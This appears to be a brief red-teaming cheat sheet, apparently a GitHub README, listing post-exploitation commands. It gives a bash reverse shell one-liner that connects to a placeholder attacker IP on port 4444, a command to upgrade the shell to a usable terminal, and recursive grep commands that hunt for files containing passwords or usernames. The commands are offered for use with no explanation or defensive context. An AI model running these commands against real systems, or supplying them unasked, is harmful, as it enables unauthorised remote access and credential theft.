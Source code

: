 # useful 4red teaming

simplest reverse shell 
> bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'

upgrade to usable tty
> SHELL=/bin/bash script -q /dev/null

find all files with "pass"
> grep -i -R "pass" 2>/dev/null 
> egrep -i -R "pass|user" 2>/dev/null

